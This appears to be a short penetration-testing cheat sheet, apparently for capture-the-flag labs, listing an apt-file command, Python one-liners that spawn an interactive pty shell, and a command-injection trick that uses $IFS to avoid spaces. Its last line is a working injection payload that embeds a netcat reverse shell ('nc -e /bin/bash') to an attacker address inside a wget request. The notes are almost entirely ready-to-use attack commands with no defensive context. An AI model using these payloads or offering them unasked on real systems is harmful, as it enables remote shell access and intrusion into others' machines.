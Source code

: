 #linux
# Locations of files of an linux install
`apt-file list <packet>`

# Interactive Python pty
 #pty #shell
 
`python3 -c 'import pty; pty.spawn("/bin/sh")'`
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
`python -c 'import pty; pty.spawn("/bin/sh")'`
`python -c 'import pty; pty.spawn("/bin/bash")'`

# Command injection space
#whitespace #commandinjection #ifs
Use `$IFS`.
Together with Netcat:
`wget http://10.10.14.XXX:8000/$(nc.traditional$IFS-e/bin/bash$IFS'10.10.14.XXX'$IFS'6666')`